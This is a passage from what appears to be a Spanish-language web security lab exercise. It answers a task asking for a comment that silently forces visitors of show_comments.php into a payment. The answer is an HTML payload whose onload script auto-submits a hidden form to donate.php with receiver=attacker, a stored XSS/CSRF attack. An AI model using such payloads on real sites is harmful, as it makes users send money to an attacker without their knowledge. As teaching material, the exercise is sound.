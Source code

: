b) Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que elusuario pulse un botón.Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show_comments.php)

Comentario a introducir:

```
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <title>Comentario</title>
</head>
<body>
    <h1>Bienvenido</h1>
    <form id="donationForm" method="POST" action="http://web.pagos/donate.php?amount=100&receiver=attacker">
        <input type="hidden" name="comment" value="<?php echo 'Este es un comentario'; ?>">
    </form>
    <script>
        window.onload = function() {
            document.getElementById('donationForm').submit();
            setTimeout(function() {
                window.location.href = "show_comments.php?id=<?php echo $row['playerid']; ?>";
            }, 0);
        };
    </script>
</body>
</html>
```

![Untitled](img/7.png)

